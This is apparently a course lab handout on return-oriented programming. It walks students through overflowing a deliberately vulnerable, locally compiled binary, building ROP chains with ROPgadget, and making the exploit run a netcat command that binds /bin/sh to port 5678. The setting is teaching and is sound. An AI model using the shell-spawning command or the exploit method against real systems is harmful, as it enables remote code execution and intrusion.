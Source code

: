 # Lab 4 - ROP based Exploitation

**Task 1**: Exploit the program and use ROPgadget to generate a ROP shellcode.

**Task 2**: Write using ROPgadget a custom shellcode to spawn a reverse shell.

Setting up the environment:  

1. Here's a Vagrant file for this weeks lab that we have tested.

```
# -*- mode: ruby -*-
# vi: set ft=ruby :

Vagrant.configure("2") do |config|
  config.vm.define "box" do |box|
                box.vm.box = "ubuntu/bionic64"
                box.vm.hostname = "lab4-box"
                box.vm.provider "virtualbox" do |virtualbox|
        virtualbox.name="lab4-box"
    end
 end
end
```

Run the usual `vagrant up` to bring the VM up, and `vagrant ssh` to login.  Your current folder will be mounted in `/vagrant` as before.
You'll need to install some extra dependencies for this lab to get going comfortably.  From a shell:

```
sudo apt update
sudo apt install -y python3-pip gdb gcc-multilib
pip3 install capstone
```

0. Download ROPGadget and install from: [URL](https://github.com/JonathanSalwan/ROPgadget). Its a github repo, so you can either clone it or (suggested) simple use "Download zip" option. 
1. Download netcat (the latest release of netcat that comes pre-installed in Ubuntu has removed a particular option (-e) that we need.
Having said that, official netcat release still shipped with that option! So, we are not completely artificial ;). [URL:](https://sourceforge.net/projects/netcat/). However, the same is also avaialble [here](../code/nc071.tar.gz).
2. untar it and build: `./configure` and `make` command (**do not do** *make install*!)
3. move `src/netcat` to `/tmp/nc`: `cp src/netcat /tmp/nc` (check if the binary is working as expected `/tmp/nc --help`).
4. Compile [vuln3.c](../code/vuln3.c) as `gcc -fno-stack-protector -m32 -static vuln3.c -o vuln3-32`
5. Find the amount of padding you'll need to overflow the buffer and start overwriting the saved return address.
6. Use ROPgadget to build a ROP shellcode. 

		ROPgadget --binary vuln3-32 --ropchain > out-rop.txt
		
   Have a look at `out-rop.txt`.  You'll see that at the bottom there is a Python program which you can complete to generate your shellcode exploit (in particular the buffer padding).  Run the program generate the exploit and test it works with the vulnerable program.
7. The shellcode in the previous step execve'd `/bin/sh`.  This time we'd like you to run the following command:

		/tmp/nc -lnp 5678 -tte /bin/sh

   This command will spawn a reverse-shell server listening on localhost port 5678 that feeds all the input it gets into `/bin/sh`.  Effectively enabling you to run programs remotely!
We're giving helper files to consult which provide a similar exploit for a different machine: [exploit-nc.py](../code/exploit-nc.py), but you'll need to get it working on *your* machine.  In particular the gadgets, configuration and Python version may be different!
8. Once successful, open another terminal and type:  
```
$/tmp/nc 127.0.0.1 5678
pwd
```

# Hints

1. To figure out the padding needed to overflow the buffer try using binary search.  If you run `perl -e 'print "A"x124, "DCBA"' >input` you can quickly test different inputs. What would you expect to see when you have correctly got control of the return address?  What would you expect to see if you've gone too far compared to not far enough?
2. Can't concatenate strings and bytes?  Just use bytes! `bytes("Your string", "ascii")`.
3. Try and get the exploit chain running first!  Break on the first gadget (In GDB: `b *0x08BLABLA`) and check it is working as expected.  Are things going into the right registers? (In GDB: `si`: step instruction, `i r`: info registers)
4. Once you're convinced the ROP chain is running the `strace` tool is very helpful to debug what system calls *actually* get made by your program.  The `-v` flag will show all the arguments to system calls, `-e trace=execve` to just show `execve` calls.  Does the call look like what you'd expect?  You may have to add some new code to your exploit to get it working if the memory you're using isn't clean!

# Optional bonus

- Get the `nc` exploit going in 64-bit mode too!  Is it easier or harder?
- Have a play at using [pwntools](https://docs.pwntools.com/en/stable/) to write your exploit instead of ROPgadget.  Is it easier? Harder?
- Have a go at a return to libc exploit as discussed in the lecture.  You'll need to defeat ASLR for this one.
